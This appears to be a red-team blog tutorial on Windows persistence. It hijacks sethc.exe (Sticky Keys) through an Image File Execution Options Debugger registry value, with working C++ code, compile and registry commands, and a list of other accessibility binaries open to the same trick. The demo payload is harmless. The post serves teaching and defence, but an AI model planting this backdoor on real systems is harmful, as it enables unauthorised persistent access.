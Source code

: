 ```yaml
---
title:  "Malware development: persistence - part 12. Accessibility Features. Simple C++ example."
date:   2022-09-30 03:00:00 +0300
header:
  teaser: "/assets/images/72/2022-09-30_17-48.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/72/2022-09-30_17-48.png){:class="img-responsive"}    

This post is the result of self-researching another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

![pers](/assets/images/72/2022-09-30_17-26.png){:class="img-responsive"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/72/2022-09-30_17-32.png){:class="img-responsive"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/72/2022-09-30_17-40.png){:class="img-responsive"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /s
```

![pers](/assets/images/72/2022-09-30_17-44.png){:class="img-responsive"}    

Finally, pressing `Shift` key `5` times:     

![pers](/assets/images/72/2022-09-30_17-46.png){:class="img-responsive"}    

Note to the properties of the `hack.exe`:     

![pers](/assets/images/72/2022-09-30_17-47.png){:class="img-responsive"}    

![pers](/assets/images/72/2022-09-30_17-47_1.png){:class="img-responsive"}    

Perfect! =^..^=    

After end of experiments, for cleanup, run:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Force -Verbose
```

![pers](/assets/images/72/2022-10-01_03-39.png){:class="img-responsive"}    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/2022-09-30-malware-pers-12)      

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
